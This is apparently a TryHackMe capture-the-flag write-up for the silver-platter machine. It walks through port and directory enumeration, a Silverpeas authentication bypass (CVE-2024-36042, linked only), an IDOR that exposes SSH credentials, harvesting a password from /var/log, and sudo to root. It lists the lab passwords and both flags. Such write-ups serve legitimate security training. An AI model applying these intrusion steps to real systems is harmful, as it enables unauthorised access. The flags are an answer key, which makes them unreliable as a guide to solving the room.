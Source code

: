 
[[TryHackMe]] Room

**Date:** 15/01/25  
**Target IP:** 10.10.240.9

---
### **Initial Scanning**

**Nmap Results:**

- 22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- 80/tcp   open  http       nginx 1.18.0 (Ubuntu)
- 8080/tcp open  http-proxy

**Nikto Scan:**

---
### **Exploration and Enumeration**

**Port 80 (HTTP):**

- Navigated to the website hosted on port 80.
- Contact page provides username for project manager on Silverpeas : scr1ptkiddy.

**DirSearch** :

```bash
Target: http://10.10.240.9/

[17:31:03] Starting: 
[17:31:18] 301 -  178B  - /assets  ->  http://10.10.240.9/assets/
[17:31:18] 403 -  564B  - /assets/
[17:31:28] 403 -  564B  - /images/
[17:31:28] 301 -  178B  - /images  ->  http://10.10.240.9/images/
[17:31:31] 200 -   17KB - /LICENSE.txt
[17:31:40] 200 -  771B  - /README.txt
```

```bash
Target: http://10.10.240.9:8080/

[17:31:58] Starting: 
[17:32:17] 302 -    0B  - /console/j_security_check  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/base/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/login/LoginForm.jsp  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/payments/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/  ->  /noredirect.html
[17:32:44] 302 -    0B  - /website  ->  http://10.10.240.9:8080/website/
```

Found /silverpeas endpoint on **Port 8080** which has a default Silverpeas login page.

---
### **Exploitation**

Gained access to the Silverpeas dashboard utilizing an Authentication Bypass vulnerability found on GitHub  [CVE-2024-36042](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d).

Once the dashboard loads, we are immediately prompted wit a notification message from "Manager". Opening the message navigates us to the URL : `http://10.10.240.9:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5`

Here, the ID column on inspection is found to have an IDOR vulnerability. Further, changing he ID value to 6, we obtain the following credentials within the message.

```bash
Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

SSH'd into tim@10.10.240.9 to obtain the user.txt flag : 
**THM{c4ca4238a0b923820dcc509a6f75849b}**

---
### **Post-Exploitation**

Running linpeas.sh provides the following : 

```bash
uid=0(root) gid=0(root) groups=0(root)
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

We observe that tim and tyler share the *adm* grp. We can thus check the /var/log files for potential data leaks. 

```bash
tim@silver-platter:/var/log$ cat * | grep 'tyler'
```

One of the results is the following : 

```bash
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

Using this password, we can SSH into the tyler user.

```bash
tyler@silver-platter:/tmp$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We observe that tyler has elevated privileges. we can thus run `sudo bash` to gain root access and obtain the root flag : 
**THM{098f6bcd4621d373cade4e832627b4f6}**

### **Summary**

- Project manager Silverpeas username : scr1ptkiddy
- tim user SSH password : `cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`
- User Flag ( /home/tim/user.txt ) : THM{c4ca4238a0b923820dcc509a6f75849b}
- tyler user SSH password : `_Zd_zx7N823/`
- Root Flag ( /root/root.txt ) : THM{098f6bcd4621d373cade4e832627b4f6}